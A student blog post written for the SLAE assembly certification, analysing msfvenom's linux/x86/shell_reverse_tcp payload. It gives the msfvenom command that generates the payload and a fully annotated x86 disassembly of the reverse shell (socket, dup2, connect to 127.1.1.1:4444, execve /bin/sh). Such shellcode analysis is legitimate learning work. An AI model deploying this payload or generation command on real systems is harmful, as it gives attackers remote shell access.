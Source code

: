 ```yaml
---
layout: post
title: "SLAE Problem 5.1: Msfvenom Analysis"
description: "Analysis of Msfvenom shellcode samples"
tags: [asm, shellcode, msfvenom]
---
```


# Assignment 5.1: Msfvenom Analysis

This blog post has been created for completing the requirements for the SecurityTube
Linux Assembly Expert certification:
[<http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert>](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert)

Student ID: SLAE-824

## Requirements

- Choose at least 3 shellcode samples created using Msfvenom for linux/x86
- Use GDB/Ndisasm/Libemu to dissect the functionality of the shellcode
- Present your analysis

### Shellcode 1: linux/x86/shell_reverse_tcp

Since I had created a reverse tcp shellcode for assignment 2 of the SLAE
I decided that it would be interesting to look at msfvenom's version and
to see how it differed from mine. To do so I did the following:

Generate a linux/x86/shell_reverse_tcp shellcode using:

{% highlight bash %}
msfvenom -p linux/x86/shell_reverse_tcp LHOST=127.1.1.1 R > revshell.bin
{% endhighlight %}

It defaults to LPORT=4444 so there is no need to set it.

Next, I ran the shellcode using Libemu and generated a .dot file:

{% highlight bash %}
/usr/bin/sctest -vvv -S -s 10000 -G revshell.dot < revshell.bin
{% endhighlight %}

I then converted the dot file to a png using:

{% highlight bash %}
dot -Tpng revshell.dot > revshell.png
{% endhighlight %}

Which gives us:

<img src="revshell.png" alt="revshell.dot" style="width: 500px;"/>

Cool. Looking at the purple boxes we see that the system calls that are
being used are:

- socket
- dup2
- connect
- execve

Those were the same socket calls that were used in the reverse shell
for assignment 2. Lets analyze things at the assembly level:

#### MSFVenom Socket:
{% highlight nasm %}
; Socket
;; Clear out ebx
xor ebx,ebx

;; Clear out eax as eax is the implied destination
;; When anything is multiplied by 0 it will be zero
;; I'm not sure why this is done as the byte count ends up
;; being the same. Example:

;; xor ebx, ebx
;; mul ebx
;; = "\x31\xDB\xF7\xE3"

;; Versus:
;; xor eax, eax
;; xor ebx, ebx
;; = "\x31\xC0\x31\xDB"

mul ebx

;; Protocol INADDR_ANY Accept on any interface 0x00000000
;; Push this value onto the stack
push ebx

;; Increment ebx. This is pushed to the stack for
;; SOCK_STREAM socket type of 1 as well as left in
;; the register as 1 is the sys_socket syscall number
inc ebx
push ebx

push byte 0x2 ;; Domain af_inet sets protocol family to ip protocol 2
mov ecx,esp ;; Pointer to sys_socket args
mov al,0x66 ;; socketcall syscall
int 0x80 ;; Call socket syscall

; Save returned file descriptor
; Not only does it save the file descriptor but
; It sets up ebx for the Dup2 call
; Which is the "New File Descriptor"
; That will be used in place of the "Old File Descriptor"
; Killing 2 birds with 1 stone
xchg eax,ebx

; Load 0x2 into ecx for the dup2 loop counter and fd number
pop ecx

; Dup2 loop
mov al,0x3f ; Place dup2 syscall in al
int 0x80 ; Duplicate fd
dec ecx ; Decrement to the next file descriptor number
jns 0xfffffffb ; Loop

; Connect
; Build sockaddr_in structure
push dword 0x101017f ; inet_addr("127.1.1.1") = 0x0101017f

;; Push port 4444 in big endian network byte order
;; and sin_family of AF_INET
;; This places 2  values on the stack in 1 operation
;; This does seem to introduce a null byte though...
push dword 0x5c110002

;; Mov pointer to sockaddr_in structure
mov ecx,esp

mov al, 0x66 ;; socketcall syscall
push eax ; addrlen
push ecx ; sockaddr_in struct pointer
push ebx ; socket file descriptor
mov bl,0x3 ; sys_call 3 which is connect()
mov ecx,esp ; pointer to connect args
int 0x80

; Execve
push edx ; 0x00000000
push dword 0x68732f6e ;"hs/n"
push dword 0x69622f2f ;"ib//"
mov ebx,esp ; place filename string in ebx
push edx ; 0x00000000
push ebx ; push pointer to program string
mov ecx,esp ; place pointer program args in ecx
mov al,0xb ; execve syscall
int 0x80
{% endhighlight %}

All in all this MSFvenom shellcode looks very similar to the one I had created
in assignment 2. There are some slight differences like using `mul` to clear
out `eax` as opposed to just using `xor`. One cool trick the MSFvenom version
was doing was using a push dword with the port and sin_family in 1 operation.
`push dword 0x5c110002` instead of what I had in my version:

        push word 0x5c11 ; sin_port=4444 (network byte order)
        push word bx     ; sin_family=AF_INET (0x2)

If we look at the objdump of a little nasm program to compare the instructions
we see:

1. Using 2 xor operations yields the same number of bytes/opcodes as using an xor and a mul instruction
2. Using a single dword push instruction instead of 2 push word instructions yields 1 less byte/opcode but it does introduce a null byte.

<img src="opcodeComparison.png" alt="opcodeComparison.png" style="width: 500px;"/>

It was really interesting to see what MSFvenom generated shellcode looks like.
Doing this exercise has taken a bit of the mystique of MSFVenom away and I look
forward to analyzing more shellcode from it to see what else I can learn.
